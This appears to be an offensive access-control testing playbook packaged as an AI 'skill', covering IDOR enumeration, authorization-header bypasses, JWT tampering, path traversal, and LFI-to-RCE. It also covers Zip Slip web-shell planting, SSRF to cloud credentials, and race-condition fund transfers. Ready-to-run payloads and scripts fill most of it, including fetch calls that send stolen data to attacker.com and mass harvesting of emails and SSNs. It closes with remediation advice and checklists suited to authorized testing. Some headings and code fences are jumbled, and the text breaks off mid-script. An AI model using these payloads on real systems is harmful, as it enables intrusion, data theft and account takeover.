- **API key scopes:** Check if scopes are properly enforced per endpoint

---

### 2.1 Initial IDOR/BOLA Probing
Test every identified endpoint for missing object-level authorization:

**Basic Sequential Testing:**
```

# Replace your ID with adjacent values
GET /api/user/123  ->  GET /api/user/124
GET /api/orders/456  ->  GET /api/orders/457
GET /profile?id=me  ->  GET /profile?id=124

# Test with other users' activity
GET /api/messages/789  ->  GET /api/messages/790
GET /api/invoices/abc  ->  GET /api/invoices/abd
```

**Response Analysis for Detection:**
- **200 OK with different data:** Critical IDOR confirmed
- **200 OK with same data:** Possible caching or self-reference fallback
- **403 Forbidden:** Authorization exists but may be bypassable
- **404 Not Found:** Object doesn't exist or no access (enumerate to confirm)
- **302 Redirect:** Attempted access control, check redirect destination
- **500 Error:** Backend processing difference, potential injection side-effect
- **Different response size:** Compare Content-Length for hidden data differences

**BOLA-Specific API Testing:**
```http

# Standard REST
GET /api/v1/users/123/orders/456
GET /api/v1/users/124/orders/456  # Cross-user order access

# Nested resource traversal
GET /api/v1/accounts/123/documents/789
GET /api/v1/accounts/124/documents/789  # Cross-account document

# If GET is allowed, test other methods
GET /api/users/123       -> 200 (your profile)
POST /api/users/123      -> ?
PUT /api/users/123       -> ?
PATCH /api/users/123     -> ?
DELETE /api/users/123    -> ?

# On admin endpoints
GET /api/admin/users     -> 403
POST /api/admin/users    -> ?
PUT /api/admin/config    -> ?

# Method override techniques
POST /api/users/123?_method=PUT
POST /api/users/123      Header: X-HTTP-Method-Override: PUT
POST /api/users/123      Header: X-HTTP-Method: DELETE
POST /api/users/123      Header: X-Method-Override: PATCH

# Framework-specific overrides
POST /api/users/123      Body: _method=put (Rails/Laravel)
POST /api/users/123      Body: __method=PUT
```

### 2.3 Content-Type Negotiation & Header Bypasses
Test if access controls vary by content type or headers:

```

# Same endpoint, different Accept headers
GET /api/users/123
Accept: application/json
Accept: application/xml
Accept: text/html
Accept: */*

# Content-Type switching for POST/PUT
Content-Type: application/json
Content-Type: application/x-www-form-urlencoded
Content-Type: multipart/form-data
Content-Type: text/xml

# Alternative API versions (often less protected)
/api/v1/users/123
/api/v2/users/123
/api/users/123
/v1/users/123
/1/users/123
/internal/users/123
/beta/users/123
/dev/users/123

# Path variations
/api/users/123/
/api/users/123//
/api/users/123/..
/api/users/123?
/api/users/123#
/api/users/123.json
/api/users/123.xml
```

# Routing override headers
X-Original-URL: /admin/users
X-Rewrite-URL: /admin/users
X-Forwarded-Path: /admin/users

# User context override
X-User-Id: 124
X-User-ID: 124
X-UserId: 124
X-Original-User: admin
X-Original-User-Id: 1
X-Authenticated-User: admin@target.com
X-Authenticated-Userid: 1

# IP-based bypasses (for IP allowlisting)
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1

# Host override (virtual host routing)
Host: admin.target.com
X-Forwarded-Host: admin.target.com
X-Host: admin.target.com
```

# Parameter location shifting
GET /api/users/123?id=124
POST /api/users/123?id=124
Cookie: id=124

# Null byte injection (legacy systems)
file.jpg%00.pdf
file.php%00.jpg
../../../etc/passwd%00
```

---

# Linear enumeration
for i in {1..10000}; do
  curl -s "https://target.com/api/orders/$i" -H "Authorization: Bearer $TOKEN" | jq .
done

# Extract timestamp and MAC address from UUID v1

import uuid
u = uuid.UUID('uuid-here')
if u.version == 1:
    # Extract time and node (MAC)
    print(f"Time: {u.time}")
    print(f"MAC: {u.node:012x}")

### 3.2 Cross-Reference Object Mapping
Map relationships between objects to find IDOR chains:

**Reference Chain Discovery:**
```

# Cross-user testing
GET /api/users/124/orders/456  # Can user 124 access user 123's order?
GET /api/orders/456/invoice    # Direct invoice access without user context

### 3.3 Bulk Data Extraction
Efficiently harvest large datasets once IDOR is confirmed:

**Parallel Enumeration:**
```bash

# Using xargs for parallel requests
seq 1 10000 | xargs -P 50 -I {} curl -s \
  "https://target.com/api/users/{}" \
  -H "Authorization: Bearer $TOKEN" | jq -r '.email'

# Using ffuf for faster enumeration
ffuf -u "https://target.com/api/users/FUZZ" \
  -w ids.txt \
  -H "Authorization: Bearer $TOKEN" \
  -mc 200 -o results.json

# Extract multiple users in single request
query {
  u1: user(id: "1") { email phone ssn }
  u2: user(id: "2") { email phone ssn }
  u3: user(id: "3") { email phone ssn }
  # ... up to server limit
}

# Introspection-assisted field discovery
query {
  __type(name: "User") {
    fields { name type { name } }
  }
}
```

# Update another user's profile
PUT /api/users/124
{"email": "attacker@evil.com", "password": "hacked123"}

# Delete another user's resources
DELETE /api/users/124/orders/456
DELETE /api/posts/789

### 4.1 Forced Browsing
Access administrative or privileged endpoints directly:

**Common Admin Paths:**
```
/admin
/administrator
/adminpanel
/admin.php
/admin.aspx
/admin.jsp
/admin.html
/admin/login
/admin/dashboard
/admin/users
/admin/orders
/admin/config
/admin/settings
/admin/api
/admin/api/users

/api/admin
/api/v1/admin
/api/internal
/api/management
/api/system
/api/debug

/console
/actuator
/management
/manager
/host-manager
/server-status
/server-info

/portal
/staff
/employee
/moderator
/root
/superuser
/system
/backend
/control
/panel
/cpanel
/whm
/phpmyadmin
```

**Response Analysis:**
- **200 with admin data:** Critical - full admin access
- **200 with limited data:** Partial access control bypass
- **302 to login:** May indicate endpoint exists but needs session type
- **404:** Endpoint may not exist, or may be hidden behind different path

# Direct parameter modification
POST /api/register
{"email": "user@target.com", "password": "pass", "role": "admin"}

POST /api/users/123
{"role": "administrator", "is_admin": true, "privileges": ["all"]}

# Boolean flipping
is_admin=false -> is_admin=true
is_staff=0 -> is_staff=1
admin=no -> admin=yes
role=user -> role=admin

# Array manipulation
roles=["user"] -> roles=["user", "admin"]
permissions=[] -> permissions=["read", "write", "delete", "admin"]

# JSON type confusion
"role": "user" -> "role": ["user", "admin"]
"is_admin": false -> "is_admin": "true"
"admin": 0 -> "admin": 1

# Mass assignment via additional fields
POST /api/profile/update
{"name": "John", "email": "john@target.com", "role": "admin", "credit": 99999}
```

# Common claims to modify
{
  "user_id": 123 -> 1 (admin),
  "role": "user" -> "admin",
  "is_admin": false -> true,
  "permissions": ["read"] -> ["read", "write", "admin"],
  "scope": "user" -> "admin",
  "account_type": "basic" -> "enterprise"
}

# Algorithm confusion (alg: none)
{
  "alg": "none",
  "typ": "JWT"
}
{
  "user_id": 1,
  "role": "admin"
}
Signature: (empty)

# Version testing
/api/v1/users/123
/api/v2/users/123
/api/v3/users/123
/api/users/123
/api/internal/users/123
/api/beta/users/123
/api/dev/users/123
/api/staging/users/123
/api/debug/users/123

# But API doesn't check scope for:
POST /api/v1/users/123  # Requires "user:write"?
DELETE /api/v1/users/123  # Requires "user:delete"?

### 5.1 Classic Path Traversal
Test file access controls through path manipulation:

**Basic Payloads:**
```
../../../etc/passwd
../../../etc/passwd%00
....//....//....//etc/passwd
..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
..%c1%9c..%c1%9c..%c1%9cetc%c1%9cpasswd

# Linux
../../../etc/passwd
../../../etc/shadow
../../../etc/hosts
../../../proc/self/environ
../../../proc/self/cmdline
../../../proc/self/fd/0
../../../proc/self/fd/1
../../../proc/self/fd/2
../../../proc/self/status
../../../proc/self/maps
../../../var/log/apache2/access.log
../../../var/www/html/config.php
../../../home/user/.ssh/id_rsa

# Windows
..\..\..\windows\win.ini
..\..\..\windows\system32\drivers\etc\hosts
..\..\..\windows\system32\config\sam
..\..\..\inetpub\wwwroot\web.config
..\..\..\windows\repair\sam
..\..\..\windows\repair\system
..\..\..\users\administrator\ntuser.dat
..\..\..\programdata\ssh\administrators_authorized_keys
```

# If "etc/passwd" is filtered:
/etc/passwd%00.jpg
/etc/passwd%00.png
/etc/passwd%00.pdf
/etc/passwd%00.html
/etc/passwd%00.txt
/etc/passwd%00
/etc/passwd%00%00
/etc/passwd%20
/etc/passwd%09
/etc/passwd%0a
/etc/passwd%0d
/etc/passwd%0d%0a
/etc/passwd#
/etc/passwd?
/etc/passwd;.
/etc/passwd..
/etc/passwd....
/etc/passwd%2e
/etc/passwd%00%2e

### 5.3 Local File Inclusion (LFI) to RCE
Escalate LFI to Remote Code Execution:

**Log Poisoning:**
```

# Poison User-Agent in access logs
curl "https://target.com/" -A "<?php system($_GET['cmd']); ?>"

# php://filter for source disclosure
php://filter/convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=config.php

# data:// for code execution
data://text/plain,<?php phpinfo(); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=

# php://input for code execution
POST /page.php?page=php://input
<?php system('id'); ?>

# Create zip with shell.php inside
zip://uploads/file.zip#shell.php
```

**Session File Inclusion:**
```

### 5.4 Archive Slip (Zip Slip)
Test for directory traversal via archive uploads:

**Malicious Zip Creation:**
```python
import zipfile
import os

# Create zip with path traversal
with zipfile.ZipFile('evil.zip', 'w') as zf:
    # Traversal payload
    zf.writestr('../../../var/www/html/shell.php', '<?php system($_GET["cmd"]); ?>')
    # Or Windows
    zf.writestr('..\\..\\..\\inetpub\\wwwroot\\shell.asp', '<% eval request("cmd") %>')
```

**Test Scenarios:**
- Upload avatar/profile picture as zip
- Upload document attachments as zip
- Import functionality (contacts, data, configurations)
- Theme/plugin uploads
- Backup restore functionality

---

### 6.1 State Machine Violation
Bypass multi-step workflows by skipping or repeating steps:

**E-Commerce Workflow:**
```
Normal: Cart -> Shipping -> Payment -> Confirmation -> Success

Bypass tests:
1. Direct access to success page after cart
   POST /api/order/complete (skip payment)
   
2. Negative quantity or price manipulation
   POST /api/cart
   {"item_id": 123, "quantity": -1, "price": 0.01}
   
3. Price override at final step
   POST /api/checkout
   {"order_id": 456, "amount": 0.01, "currency": "USD"}
   
4. Replay payment confirmation
   POST /api/payment/confirm
   {"order_id": 456, "status": "completed"}
   
5. Race condition on coupon application
   Apply 100% coupon multiple times rapidly
```

**Authentication Workflow:**
```
Normal: Login -> 2FA -> Dashboard

Bypass tests:
1. Direct dashboard access after login
   GET /dashboard (skip 2FA)
   
2. Skip 2FA by modifying response
   Intercept 2FA prompt, change 403 to 302 redirect
   
3. Brute force 2FA with concurrent requests
   100 parallel requests to /api/2fa/verify
   
4. Backup code abuse
   Use backup code without consuming it
   
5. Trust device bypass
   POST /api/trust-device
   {"trusted": true, "skip_2fa": true}
```

### 6.2 Privilege Escalation Chains
Combine multiple low-severity issues for critical impact:

**Horizontal to Vertical Escalation:**
```
1. IDOR to read admin user ID
   GET /api/users/1 -> {"id": 1, "role": "admin", "email": "admin@target.com"}
   
2. IDOR to modify admin profile
   PUT /api/users/1
   {"password": "hacked123", "email": "attacker@evil.com"}
   
3. Account takeover via password reset
   POST /api/password-reset
   {"email": "attacker@evil.com"} (now linked to admin account)
```

**Role Escalation via Mass Assignment:**
```
1. Register normal account
   POST /api/register
   {"email": "user@target.com", "password": "pass"}
   
2. Update profile with additional fields
   PUT /api/profile
   {
     "name": "User",
     "role": "admin",
     "is_staff": true,
     "permissions": ["all"],
     "account_type": "enterprise"
   }
   
3. Verify escalation
   GET /api/admin/users -> 200 OK
```

### 6.3 Race Conditions in Access Control
Exploit timing windows in authorization checks:

**TOCTOU (Time-of-Check to Time-of-Use):**
```

# Send 100 requests simultaneously to redeem single-use coupon
echo "coupon_code=SAVE100" | parallel -j 100 curl -X POST \
  "https://target.com/api/coupon/redeem" -d @-

# Send multiple transfer requests to overdraw account
for i in {1..50}; do
  curl -X POST "https://target.com/api/transfer" \
    -d '{"to": "attacker", "amount": 100}' &
done

# API allows 5 requests/minute, send 100 concurrently
seq 1 100 | parallel -j 100 curl "https://target.com/api/action"
```

---

### 7.1 GraphQL-Specific Access Control
GraphQL often lacks proper field-level authorization:

**Introspection for Hidden Fields:**
```graphql
query {
  __schema {
    types {
      name
      fields {
        name
        type { name }
      }
    }
  }
}

# If introspection is disabled, use field suggestions
query {
  user {
    pas  # Typo triggers suggestion: "Did you mean password?"
  }
}
```

**Query Depth & Complexity Bypass:**
```graphql

# Access nested objects that skip authorization
query {
  user(id: "123") {
    organization {
      users {  # All org users without individual checks
        email
        password
        ssn
      }
    }
  }
}

# Alias-based batch extraction
query {
  a1: user(id: "1") { email }
  a2: user(id: "2") { email }
  # ...
}
```

**Mutation Authorization Bypass:**
```graphql
mutation {
  updateUser(input: {id: "124", role: "admin"}) {
    user { role }
  }
}

# Subscribe to other users' channels
{"action": "subscribe", "channel": "user_124_notifications"}
{"action": "subscribe", "channel": "admin_alerts"}
{"action": "subscribe", "channel": "all_users"}

# Send admin actions over WebSocket
{"action": "delete_user", "user_id": "124"}
{"action": "update_role", "user_id": "124", "role": "admin"}
{"action": "get_all_users"}
```

# Use the application as proxy
POST /api/admin/webhook
{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}

# If file upload allows URL fetching
POST /api/upload
{"url": "file:///etc/passwd"}
{"url": "http://localhost:8080/admin"}

# PDF generation with local access
POST /api/export/pdf
{"url": "http://localhost:3000/internal/api"}
```

### 7.4 CORS Misconfiguration Abuse
Exploit CORS to steal data cross-origin:

**Vulnerable Patterns:**
```
Access-Control-Allow-Origin: *  (with credentials)
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Origin: null
Access-Control-Allow-Origin: https://target.com.evil.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```javascript
// If origin reflection with credentials
fetch('https://target.com/api/user/123', {
  credentials: 'include'
})
.then(r => r.json())
.then(data => fetch('https://attacker.com/log?d=' + btoa(JSON.stringify(data))))
```

# Look for callback parameters
/api/user?callback=processData
/api/user?cb=func
/api/user?jsonp=handleResponse
/api/user?_callback=cb

# If with callback returns sensitive data without auth check:
<script src="https://target.com/api/user/124?callback=steal"></script>
<script>
function steal(data) {
  fetch('https://attacker.com/?d=' + btoa(JSON.stringify(data)));
}
</script>
```

---

### 8.1 Burp Suite Extensions
Essential extensions for access control testing:

**Autorize (Critical):**
```
1. Configure Autorize with low-privilege user cookies/tokens
2. Browse application as high-privilege user
3. Autorize automatically repeats requests with low-priv tokens
4. Green = Bypassed (same response)
5. Red = Enforced (different/denied response)
6. Yellow = Potential bypass (similar size but different)
```

**Additional Extensions:**
- **AuthMatrix:** Role-based access control testing
- **Authorize:** Alternative to Autorize
- **AutoRepeater:** Automatically modify and replay requests
- **ParamMiner:** Hidden parameter discovery (role, admin, debug)
- **Reflected Parameters:** Find parameters reflected in responses
- **Upload Scanner:** Test file upload restrictions
- **Backslash Powered Scanner:** Path traversal detection
- **WAFDetect:** WAF presence and type detection
- **Turbo Intruder:** High-speed race condition testing

### 8.2 Custom Automation Scripts

**IDOR Scanner:**
```python
import requests
import concurrent.futures

def test_idor(base_url, endpoint_template, id_range, headers):
    results = []
    
    def check_id(object_id):
        url = f"{base_url}{endpoint_template.format(id=object_id)}"
        try:
            resp = requests.get(url, headers=headers, timeout=10, allow_redirects=False)
            if resp.status_code == 200:
                # Compare with baseline (your own ID)
                return (object_id, resp.status_code, len(resp.content), resp.text[:500])
            return (object_id, resp.status_code, 0, "")
        except Exception as e:
            return (object_id, "ERROR", 0, str(e))
    
    with concurrent.futures.ThreadPoolExecutor(max_workers=50) as executor:
        futures = [executor.submit(check_id, i) for i in id_range]
        for future in concurrent.futures.as_completed(futures):
            results.append(future.result())
    
    return results

# Usage
headers = {"Authorization": "Bearer TOKEN", "Content-Type": "application/json"}
results = test_idor(
    "https://target.com",
    "/api/users/{id}",
    range(1, 10000),
    headers
)

# Filter successful hits
for r in results:
    if r[1] == 200:
        print(f"ID {r[0]}: Length {r[2]}")
```

**Access Control Matrix Builder:**
```python
import requests
from itertools import product

# Define roles and endpoints
roles = {
    "guest": {"headers": {}},
    "user": {"headers": {"Authorization": "Bearer USER_TOKEN"}},
    "admin": {"headers": {"Authorization": "Bearer ADMIN_TOKEN"}}
}

endpoints = [
    ("GET", "/api/users"),
    ("GET", "/api/users/123"),
    ("POST", "/api/users"),
    ("DELETE", "/api/users/123"),
    ("GET", "/api/admin/config"),
    ("POST", "/api/admin/roles"),
]

# Build access matrix
matrix = {}
for role_name, role_config in roles.items():
    matrix[role_name] = {}
    for method, path in endpoints:
        try:
            resp = requests.request(method, f"https://target.com{path}", 
                                  headers=role_config["headers"], timeout=10)
            matrix[role_name][f"{method} {path}"] = resp.status_code
        except Exception as e:
            matrix[role_name][f"{method} {path}"] = f"ERR: {e}"

# Print matrix
print("Access Control Matrix:")
print("-" * 80)
for endpoint in [f"{m} {p}" for m, p in endpoints]:
    print(f"\n{endpoint}:")
    for role in roles:
        print(f"  {role:10}: {matrix[role][endpoint]}")
```

# Using curl and background processes
for i in {1..100}; do
  curl -s -X POST "https://target.com/api/coupon/apply" \
    -H "Authorization: Bearer $TOKEN" \
    -d '{"code": "ONCE_PER_USER"}' &
done
wait

# Using Python with threading
python3 -c "
import requests, threading
url = 'https://target.com/api/transfer'
data = {'to': 'attacker', 'amount': 100}
headers = {'Authorization': 'Bearer TOKEN'}

def req():
    requests.post(url, json=data, headers=headers)

threads = [threading.Thread(target=req) for _ in range(50)]
for t in threads: t.start()
for t in threads: t.join()
"
```

---

### 9.1 Severity Classification

**Critical (CVSS 9.0-10.0):**
- Full admin access without authentication
- Mass data extraction of all users (PII, credentials, financial)
- Account takeover of arbitrary users
- RCE via file inclusion/path traversal
- Unauthorized fund transfers or purchases

**High (CVSS 7.0-8.9):**
- IDOR allowing read access to other users' sensitive data
- Horizontal privilege escalation (access other users' data)
- Function-level bypass allowing admin operations as regular user
- Write-capable IDOR (modify/delete other users' data)
- Business logic bypass causing financial impact

**Medium (CVSS 4.0-6.9):**
- IDOR exposing non-sensitive data (public profiles, metadata)
- Information disclosure via forced browsing (non-sensitive endpoints)
- Path traversal limited to specific files
- Bypass requiring multiple steps or specific conditions

**Low (CVSS 0.1-3.9):**
- Information disclosure via error messages
- Endpoint enumeration (without data access)
- CORS misconfiguration without sensitive data exposure
- Missing access controls on non-sensitive functions

### 9.2 Evidence Collection
For each finding, collect:

```
1. HTTP Request (full, with headers)
2. HTTP Response (full, sanitized if containing PII)
3. Proof of concept steps (numbered, reproducible)
4. Impact statement (what data/functionality was exposed)
5. Affected parameters/endpoints (complete list)
6. Screenshots (before/after comparison if applicable)
7. Business context (what type of data, how many users affected)
```

### 9.3 Remediation Guidance

**Primary Defenses:**
1. **Deny by Default:** Return 403 unless explicitly granted access
2. **Server-Side Enforcement:** Never rely on client-side hiding of UI elements
3. **Indirect Object References:** Use random, unguessable IDs (UUID v4/v7, secure random)
4. **Per-Request Authorization:** Verify user has permission for every object access
5. **RBAC/ABAC Implementation:** Centralized policy engine for all access decisions
6. **Input Validation:** Strict allowlists for file paths, IDs, and references
7. **Rate Limiting:** Prevent bulk enumeration attacks

**Specific Fixes by Category:**

**IDOR/BOLA:**
```python

# BAD: Direct ID access without check
@app.route('/api/orders/<order_id>')
def get_order(order_id):
    return Order.query.get(order_id)  # Vulnerable

# GOOD: Authorization check
@app.route('/api/orders/<order_id>')
@login_required
def get_order(order_id):
    order = Order.query.get_or_404(order_id)
    if order.user_id != current_user.id and not current_user.is_admin:
        abort(403)
    return order
```

**Path Traversal:**
```python

# BAD: User-controlled file path
filename = request.args.get('file')
return send_file(f'/var/www/uploads/{filename}')

# GOOD: Strict validation and sandboxing
import os
from werkzeug.utils import secure_filename

filename = secure_filename(request.args.get('file'))
base_path = '/var/www/uploads'
file_path = os.path.realpath(os.path.join(base_path, filename))
if not file_path.startswith(base_path):
    abort(403)
return send_file(file_path)
```

**Function-Level Access Control:**
```python

# BAD: Only hiding button in UI
@app.route('/api/admin/delete-user', methods=['POST'])
def delete_user():
    # Missing role check!
    User.query.get(request.json['user_id']).delete()

# GOOD: Decorator-based enforcement
from functools import wraps

def require_role(role):
    def decorator(f):
        @wraps(f)
        def wrapper(*args, **kwargs):
            if not current_user.has_role(role):
                abort(403)
            return f(*args, **kwargs)
        return wrapper
    return decorator

@app.route('/api/admin/delete-user', methods=['POST'])
@login_required
@require_role('admin')
def delete_user():
    User.query.get_or_404(request.json['user_id']).delete()
```

---

### 10.1 IDOR/BOLA Checklist
- [ ] Map all endpoints accepting object references (IDs, filenames, keys)
- [ ] Test sequential ID enumeration (±1000 around your ID)
- [ ] Test UUID predictability (v1 time-based, v7 time-ordered)
- [ ] Test hash reversibility (MD5/SHA1/Base64 of integers)
- [ ] Test cross-user resource access (orders, messages, documents)
- [ ] Test nested resource traversal depth bypass
- [ ] Test bulk operations for cross-user impact
- [ ] Test GraphQL field-level access and alias batching
- [ ] Test write operations (PUT/POST/PATCH/DELETE) for IDOR
- [ ] Test with different content types and API versions
- [ ] Test parameter pollution (duplicate IDs)
- [ ] Test with alternative HTTP methods

### 10.2 Access Control Checklist
- [ ] Test forced browsing to admin/management endpoints
- [ ] Test role parameter tampering in requests
- [ ] Test JWT claim manipulation (alg:none, RS256->HS256)
- [ ] Test mass assignment of privileged fields
- [ ] Test HTTP verb switching on restricted endpoints
- [ ] Test method override parameters and headers
- [ ] Test header-based bypasses (X-Original-URL, X-Forwarded-For)
- [ ] Test CORS configuration with credentials
- [ ] Test API scope enforcement for OAuth tokens
- [ ] Test WebSocket channel subscriptions
- [ ] Test JSONP endpoints for sensitive data exposure

### 10.3 Path Traversal Checklist
- [ ] Test classic traversal (`../../../etc/passwd`)
- [ ] Test encoded traversal (`%2e%2e%2f`, `%252e%252e%252f`)
- [ ] Test Unicode bypasses (`%c0%af`, fullwidth characters)
- [ ] Test null byte truncation (`%00`)
- [ ] Test double encoding (`%252f`)
- [ ] Test archive upload functionality (Zip Slip)
- [ ] Test file inclusion via PHP wrappers
- [ ] Test log poisoning for LFI->RCE
- [ ] Test session file inclusion
- [ ] Test with various file extensions and path suffixes

### 10.4 Business Logic Checklist
- [ ] Test workflow step skipping (payment, verification, approval)
- [ ] Test state machine violations (approve before submit)
- [ ] Test negative values and arithmetic edge cases
- [ ] Test race conditions on critical operations
- [ ] Test concurrent request limits
- [ ] Test price/quantity manipulation at checkout
- [ ] Test coupon/voucher reuse and stacking
- [ ] Test refund flows and reversal operations
- [ ] Test privilege escalation chains (horizontal -> vertical)

---

## References & Resources

**Standards & Frameworks:**
- OWASP Top 10:2021 - A01:2021 – Broken Access Control
- OWASP Testing Guide v4.2: Testing for Bypassing Authorization Schema
- OWASP API Security Top 10:2023 - API1:2023 Broken Object Level Authorization
- CWE-22: Improper Limitation of a Pathname to a Restricted Directory
- CWE-284: Improper Access Control
- CWE-285: Improper Authorization
- CWE-639: Authorization Bypass Through User-Controlled Key (IDOR)

**Tools:**
- Burp Suite Pro + Autorize extension
- OWASP ZAP Access Control Testing
- Postman / Insomnia for API testing
- ffuf for endpoint enumeration
- jwt_tool for JWT manipulation
- graphqlmap for GraphQL testing
- wscat for WebSocket testing

**Research & Methodologies:**
- PortSwigger Web Security Academy: Access Control labs
- Bugcrowd IDOR methodology
- HackerOne hacktivity: Access control reports
- APIsecurity.io: BOLA research and case studies

---


### From `offensive-skills/offensive-idor/SKILL.md`

## Metadata
- **Skill Name**: idor
- **Folder**: offensive-idor
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/idor.md

## Description
IDOR (Insecure Direct Object Reference) testing checklist: object ID enumeration, horizontal/vertical privilege escalation, GUID predictability, indirect references via hashes, chained IDOR, and API endpoint IDOR. Use for web app pentests and bug bounty IDOR discovery.

## Trigger Phrases
Use this skill when the conversation involves any of:
`IDOR, insecure direct object reference, horizontal privilege escalation, vertical privilege escalation, object enumeration, GUID, API IDOR, mass assignment, broken access control`

## Shortcut



- Create two accounts for each application role and designate one as the attacker account and the other as the victim account.
- Discover features in the application that might lead to IDOR. Pay attention to features that return sensitive information or modify user data.
- Revisit the features you discovered in step 2. With a proxy, intercept your browser traffic while you browse through the sensitive functionalities.
- With a proxy, intercept each sensitive request and switch out the IDs that you see in the requests. If switching out IDs grants you access to other user's information or lets you change their data, this indicates an IDOR.
- Don't despair if the application seems to be immune to IDOR. Use this opportunity to try a protection bypass technique. If the application uses an encoded, hashed, or randomized ID, you can try decoding, or predicting the IDs. You can also try supplying the application with an ID when it does not ask for one. Finally, sometimes changing the request method type or file type makes all the difference.
- Monitor for information leaks in export files, email, and other text alerts. An IDOR now might lead to an information leak in the future.

## Mechanisms



Insecure Direct Object References (IDOR) occur when an application exposes a reference to an internal implementation object without sufficient access control. These vulnerabilities allow attackers to manipulate these references to access unauthorized data or perform unauthorized actions.

IDOR vulnerabilities arise from flawed access control mechanisms that fail to validate whether a user should have permission to access or modify a specific resource. The core implementation issues include:

- **Missing Authorization Checks**: No validation of user permissions when accessing objects
- **Client-Side ID Transmission**: Relying on client-provided identifiers without server-side verification
- **Predictable Resource Identifiers**: Sequential or easily guessable object references
- **Insufficient Access Control Logic**: Authentication without proper authorization
- **Improper Session Handling**: Not binding resources to user sessions
- **Reliance on Obfuscation**: Using complex identifiers without actual access control

IDORs manifest in various patterns:

- **Horizontal Access Control Failures**: Accessing resources belonging to other users of the same privilege level
- **Vertical Access Control Failures**: Accessing resources requiring higher privileges
- **Context-Dependent Access Control Failures**: Access based on improper contextual states

#### Preparation

1. **Create Multiple Test Accounts**:
   - Set up accounts with different privilege levels (e.g., regular user, premium user)
   - Create multiple accounts within the same privilege level

2. **Establish Baseline Behavior**:
   - Document normal resource access patterns
   - Map all application endpoints that reference objects
   - Identify resource identifiers in requests
   - Evaluate caching headers (ETag/Last-Modified) that can leak existence side‑channels during enumeration

3. **Request Capture Setup**:
   - Configure a proxy (e.g., Burp Suite, OWASP ZAP)
   - For mobile applications, install the proxy’s CA certificate on the device or emulator (e.g., with mitmproxy or Burp Mobile Assistant) so HTTPS traffic can be intercepted.
   - Record all interactions with resource identifiers
   - Create an inventory of potential IDOR test targets

#### Finding IDOR Vulnerabilities

1. **Request Parameter Analysis**:
   - Look for identifiers in URLs, request bodies, cookies, and headers
   - Common parameter names:
     ```
     id, user_id, account_id, file, doc, document, record, item, order, number, profile,
     edit, view, filename, object, num, key, userid, uuid, group, role
     ```
   - Watch for identifiers hidden in JWT claims (`sub`, `org_id`) or signed cookies; tamper if server fails to re‑authorize.

2. **Parameter Manipulation Techniques**:
   - **Direct Modification**: Change numerical IDs (e.g., `id=1` → `id=2`)
   - **Add Missing IDs**: Try adding relevant IDs (e.g., `user_id`, `account_id`) to requests that don't initially have them (e.g., `GET /api/messages` → `GET /api/messages?user_id=<victim_uuid>`). Parameter names can often be inferred from other requests or discovered using tools like Arjun.
   - **GUID/UUID Replacement**: Replace one user's GUID with another's
   - **Decode and Modify**: Decode base64/hex encoded parameters before modification
   - **Array/Object Manipulation**: Add or modify array elements in API requests
     ```json
     {"items": [{"id": 123, "owner": "victim"}]} → {"items": [{"id": 456, "owner": "attacker"}]}
     ```
   - **File Type Manipulation**: Try changing requested file types or appending extensions (e.g., `.json`, `.xml`, `.config`). Ruby applications might respond differently to `/resource/123` vs `/resource/123.json`.
   - **Wildcard Testing**: Replace IDs with wildcards (e.g., `GET /api/users/*`). Rare, but worth trying.
   - **Array-based Access**: Try wrapping IDs in arrays (e.g., `{"id":19}` → `{"id":[19]}`).
   - **JSON Object Wrapping**: Try wrapping the ID in a nested JSON object (e.g., `{"id":111}` → `{"id":{"id":111}}`).
   - **Numeric vs Non-Numeric IDs**: If the application uses non-numeric IDs (GUIDs, usernames), try substituting them with potential numeric equivalents (e.g., `account_id=UUID` → `account_id=123`).
   - **Parameter Name Replacement**: Try alternative parameter names (e.g., album_id → account_id). Fuzz JSON Patch (RFC 6902) and JSON Merge Patch (RFC 7386) bodies for cross‑user modifications.

- **Multiple Value Testing**: Supply multiple values for same parameter (e.g., `id=123&id=456`, `user_id=attacker_id&user_id=victim_id`, `user_id=attacker_id[]&user_id=victim_id[]`). See HTTP Parameter Pollution under Bypass Techniques.
- **New Feature Focus**: Pay special attention to newly added features as they may have weaker access controls; include mobile and older API versions.
- **Cache Probing**: Use CDN cache keys and `If-None-Match` probing to infer existence without full access.

3. **Endpoint Analysis Questions**:
   For each endpoint receiving an object ID, ask:
   - Does this ID reference a private or sensitive resource (vs. public)?
   - What are _my_ legitimate IDs for this type of resource?
   - What are the different user roles interacting with this API? (user, admin, manager, etc.)

4. **Hidden Parameter Discovery**:
   - Analyze JavaScript client-side code for hidden parameters
   - Check mobile app API communications
   - Examine response data for additional identifiable references

5. **Web Socket Discovery**:
   - Identify how websockets are being initiated
   - Check if we can manipulate it to change anything
   - Make sure to test mobile/desktop applications of the target as well
   - Inspect mobile deep links and intent filters that include object IDs; try cross‑app invocation.

6. **Testing Methodology**:
   1. Access resource as User A and capture the request
   2. Note all identifiers (explicit and obfuscated)
   3. Log in as User B
   4. Replay User A's request with User B's session
   5. Modify identifiers to access resources belonging to other users
   6. Test both read and write operations(and all other application boundaries)
   7. if there are mobile applications create a unique user for that platform as well and test IDOR

### Advanced IDOR Testing Techniques



#### Blind IDOR Detection

1. **Comparative Response Analysis**:
   - Compare responses between valid and invalid resource IDs
   - Look for subtle differences in response times, sizes, or error messages
   - Use automated tools to detect variations across multiple requests

2. **Out-of-Band Detection**:
   - Inject tracking URLs in modifiable parameters
   - Monitor for callbacks when the resource is accessed
   - Use server callbacks to detect successful access

3. **Side-Channel Analysis**:
   - Analyze network traffic for additional clues
   - Look for timing differences or response size variations

#### Mass IDOR Testing

1. **Automated Identifier Enumeration**:

```python
import requests

session = requests.Session()

# Test range of IDs
for id in range(1, 1000):
    response = session.get(f"https://example.com/api/documents/{id}")
    if response.status_code == 200:
